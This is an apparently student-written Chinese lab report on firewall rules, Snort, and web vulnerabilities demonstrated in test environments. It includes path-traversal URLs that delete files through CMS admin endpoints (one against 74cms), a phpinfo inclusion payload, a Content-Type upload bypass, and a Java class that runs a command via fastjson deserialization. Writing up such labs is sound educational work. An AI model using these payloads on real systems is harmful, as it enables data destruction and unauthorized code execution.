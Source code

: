 # lab11: 网络防火墙与入侵检测技术
- 配置 Windows 防火墙的安全策略并进行验证, 要求多次变更安全策略, 分析比较不同安全策略下的防护效果
- 将相关配置及验证结果界面截图并写入实验报告中

## 11.1 Windows 内置防火墙配置实验
- 通过出站规则禁止某程序(chrome.exe), 使得其无法联网/工作
- 通过出站规则禁止某协议(ICMPv4), 观察其影响
- 通过出站规则禁止 tcp 某端口号(port 25), 来观察其影响

### 禁止应用
选择 msedge.exe
![forbid](https://i.imgur.com/7ZkV5lI.png)

限制连接(注意要设置出站, 因为浏览器这里作为客户端)
![forbid](https://i.imgur.com/Jo5t5kg.png)
![forbid](https://i.imgur.com/3h1Ktg3.png)

可以看到浏览器无法访问baidu (注意这里可能要关闭全局代理)
![fail](https://i.imgur.com/jZTsLCZ.png)

修改规则为允许
```
![allow](https://i.imgur.com/HlUwpLf.png)
```

此时可以访问
![ok](https://i.imgur.com/WQpGCRL.png)

### 禁止 ICMPv4
通过阻止 ICMPv4 报文出站, 从而阻止本机 ping 通其他机器
![ping](https://i.imgur.com/BDZ5mjk.png)

此时 ping 的结果是
![fail-ping](https://i.imgur.com/kOzSthk.png)

改回来
![back](https://i.imgur.com/C4ijqru.png)

### 禁止 tcp 端口

![tcp25](https://i.imgur.com/7ikTuWs.png)

尝试连接
![try-smtp](https://i.imgur.com/WDppTqk.png)

删除规则,  能够连接
![back](https://i.imgur.com/1TnKvdJ.png)

## 11.2 snort 的安装与使用

- 安装 WinPcap 软件.
- 安装 snort 软件.
- 完善 snort 配置文件  snort.conf, 包括: 设置  snort  的内, 外网检测范围; 设置监测包含的规则.
- 配置 snort 规则.
- 尝试一些简单攻击, 使用控制台查看检测结果.
- 将每种攻击的攻击界面, snort  检测结果截图写入实验报告中.

<!-- TODO -->
![fail](https://i.imgur.com/aeDWiYU.png)

# lab12 文件安全

## 12.1 任意文件读取漏洞以及演示

点编辑然后抓包
![img](https://i.imgur.com/rmRhp8y.png)


D 盘搞一个文件)
![d](https://i.imgur.com/tgbWKBQ.png)
<!-- ![d](https://i.imgur.com/PVRFtHX.png) -->


不停回溯父级目录就能访问到这个文件
![a](https://i.imgur.com/FLC99oN.png)
![b](https://i.imgur.com/j1GbdxJ.png)

从而实现任意的文件读取

## 12.2 任意文件删除漏洞以及演示

假装进行一个代码审计发现了
```php
public function delbackdb(){
    //  接收filename GET 参数
    $filename = trim($_GET['filename']);
    //判断值真假
    if(!$filename){
            //如果没有
            rewrite::js_back('备份文件不存在');
    }
    //进入delOne
    $this->delOne($filename);
    addlog('删除数据库备份文件');
    rewrite::succ('删除成功');
}
```

那么就可以构造一个链接, 直接能删除文件
```
http://www.delredfile.com/admin.php?m=backdb&a=delbackdb&filename=../../../../../../1.txt
```

深藏功与名
![delete](https://i.imgur.com/uA1NlUH.png)
![none](https://i.imgur.com/wNw05WT.png)


第二个案例类似, 构造链接如下
```
http://www.74cms.com/admin/admin_article.php?act=del_img&id=1&img=../../../../../../../1.txt
```

结果
![delete](https://i.imgur.com/b2dMQHw.png)
![none](https://i.imgur.com/wNw05WT.png)

## 12.3 文件包含漏洞原理以及演示


梅开三度,写一个文件
![a](https://i.imgur.com/Hvr2gfC.png)

尝试执行其中的代码
```
<?php phpinfo();?>
```

然后通过相对目录访问文件
![dir](https://i.imgur.com/oit2Av9.png)

可以看到不断加 ../ 最终到达了 D 盘根目录, 成功把 1.txt 里面的内容包含进来执行, 看到了 php 的一些信息
![php](https://i.imgur.com/ISofxVq.png)


另外, 到 D:\phpstudy_pro\WWW\www.wailian2.com 这个目录新建一个 1.txt, 通过访问 wailian2.com 能读取文件内容
![read](https://i.imgur.com/3iAr8gO.png)


然后回到 dvwa 直接重定向 url 也能执行
![url](https://i.imgur.com/hdQJOjE.png)


## 12.4 任意文件上传漏洞原理以及演示

### low 难度

桌面搞一个 1.php
![php](https://i.imgur.com/89aPXKj.png)

然后直接上传
![uplaod](https://i.imgur.com/ylDuBpe.png)
![upload](https://i.imgur.com/wqAbVnw.png)

然后访问链接就能执行
![exec](https://i.imgur.com/YLvHdOf.png)

### medium 难度


burpsuite 抓包, 修改 Content-type
![con-type](https://i.imgur.com/lq3LbhV.png)

改成 image/jpeg,  然后就能上传成功

![ok](https://i.imgur.com/o32Vn8S.png)
说明服务端没有判断文件后缀, 而是判断文件类型

# lab13 高阶网络攻防练习

## 13.1 spring boot Actuator 常见漏洞

配好环境, 运行项目


env 和 trace 都造成的信息泄露
<!-- TODO: 8080 没开 -->


可以直接用 python 开一个 web 服务器
![py](https://i.imgur.com/wgzNQnL.png)
<!-- ![pyweb](https://i.imgur.com/lwO9EeZ.png) -->

## 13.2 外链安全风险漏洞原理以及演示

寻找外链
![link](https://i.imgur.com/ewgBEKc.png)


对应路径处放一个一个 js 脚本
![js](https://i.imgur.com/NPGkLNq.png)

当有用户访问时就会执行, 可替换为其他恶意代码进行攻击
![alert](https://i.imgur.com/BHPl4Lt.png)




## 13.3 第三方安全漏洞原理以及演示

### fastjson 反序列化漏洞

执行某 bat 脚本
![bat](https://i.imgur.com/YSsrPhh.png)


<!-- TODO -->


打开靶场
![fastbar](https://i.imgur.com/DKN7lN0.png)

```java
import java.lang.Runtime; 
import java.lang.Process; 
 
public class test { 
    static { 
        try { 
                Runtime rt = Runtime.getRuntime(); 
                String[] commands = {"notepad.exe"}; 
                Process pc = rt.exec(commands); 
                pc.waitFor(); 
        } catch (Exception e) { 
                // do nothing 
        } 
    } 
}
```


### shiro 反序列化漏洞
